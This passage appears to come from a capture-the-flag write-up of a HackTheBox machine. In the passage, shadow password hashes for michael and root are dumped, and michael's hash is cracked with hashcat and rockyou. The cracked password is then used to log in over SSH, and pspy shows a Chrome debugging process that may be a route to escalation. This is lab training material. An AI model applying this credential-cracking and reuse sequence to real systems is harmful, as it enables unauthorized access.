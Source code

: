 Account hashes are available, including a user `michael`:

```console
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
```

It actually cracks pretty quickly:

```console
$ hashcat ./hash.sightless ~/wordlists/rockyou.txt
...
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse
```

```console
$ ssh michael@t
Warning: Permanently added 't' (ED25519) to the list of known hosts.
michael@t's password:
Last login: Fri Sep 13 14:46:14 2024 from 10.10.14.9
-bash-5.1$ id
uid=1000(michael) gid=1000(michael) groups=1000(michael)
-bash-5.1$ cat user.txt
cdbc82...
```

`pspy64`:

```console
...
2024/09/13 16:40:23 CMD: UID=1001  PID=1647   | /bin/bash /home/john/automation/healthcheck.sh
2024/09/13 16:40:23 CMD: UID=1001  PID=1621   | /opt/google/chrome/chrome --type=renderer --headless --crashpad-handler-pid=1571 --no-sandbox --disable-dev-shm-usage --enable-automation --remote
-debugging-port=0 --test-type=webdriver --allow-pre-commit-input --ozone-platform=headless --disable-gpu-compositing --lang=en-US --num-raster-threads=1 --renderer-client-id=5 --time-ticks-at-un
ix-epoch=-1726236431306303 --launc
```

Probably [https://www.canva.dev/blog/engineering/discovering-headroll-cve-2023-0704-in-chromium/](https://www.canva.dev/blog/engineering/discovering-headroll-cve-2023-0704-in-chromium/)?

This also shows up in LinPEAS:

![](_/htb-sightless-20240913-4.png)
